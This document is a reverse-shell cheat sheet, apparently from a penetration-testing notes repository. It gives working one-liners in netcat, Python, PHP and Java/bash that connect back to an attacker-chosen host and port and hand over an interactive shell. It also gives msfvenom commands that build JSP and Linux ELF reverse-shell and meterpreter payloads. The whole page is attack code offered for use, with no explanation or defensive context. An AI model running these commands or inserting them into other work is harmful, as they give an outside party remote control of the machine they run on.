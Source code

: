 #### netcat

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [LHOST] [LPORT] >/tmp/f
```

```
nc -e /bin/sh [LHOST] [LPORT]
```

#### python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[LHOST]",[LPORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[LHOST]",[LPORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### php

```
php -r '$sock=fsockopen("[LHOST]",[LPORT]);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### java

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/[LHOST]/[LPORT];cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

```
msfvenom -p java/jsp_shell_reverse_tcp lhost=[LHOST] lport=[LPORT] -f raw > shell.jsp
```

#### msfvenom

Linux

```
msfvenom -p linux/x86/shell/reverse_tcp lhost=[LHOST] lport=[LPORT] -f elf > shell.elf // 32bit-staged
msfvenom -p linux/x86/shell_reverse_tcp lhost=[LHOST] lport=[LPORT] -f elf > shell.elf // 32bit-unstaged
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=[LHOST] lport=[LPORT] -f elf > shell.elf // 32bit-meterpreter
msfvenom -p linux/x64/shell/reverse_tcp lhost=[LHOST] lport=[LPORT] -f elf > shell.elf // 64bit-staged
msfvenom -p linux/x64/shell_reverse_tcp lhost=[LHOST] lport=[LPORT] -f elf > shell.elf // 64bit-unstaged
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=[LHOST] lport=[LPORT] -f elf > shell.elf // 64bit-meterpreter-staged
```
